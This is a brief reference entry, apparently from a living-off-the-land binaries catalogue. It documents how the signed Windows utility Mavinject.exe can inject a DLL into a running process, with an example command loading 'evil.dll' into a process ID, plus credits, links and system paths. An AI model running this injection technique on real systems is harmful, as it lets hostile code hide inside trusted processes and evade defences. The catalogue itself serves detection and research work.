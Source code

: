 ## Mavinject.exe

* Functions: Execute

```
MavInject.exe <PID> /INJECTRUNNING <PATH DLL>

MavInject.exe 3110 /INJECTRUNNING c:\folder\evil.dll>
```

Acknowledgements:
* Giuseppe N3mes1s - @gN3mes1s
* Adam - @hexacorn
   
Code sample:
* 

Resources:
* https://twitter.com/gN3mes1s/status/941315826107510784     
* https://twitter.com/Hexacorn/status/776122138063409152     

Full path:
```
C:\Windows\System32\mavinject.exe
C:\Windows\SysWOW64\mavinject.exe
```

Notes:



 

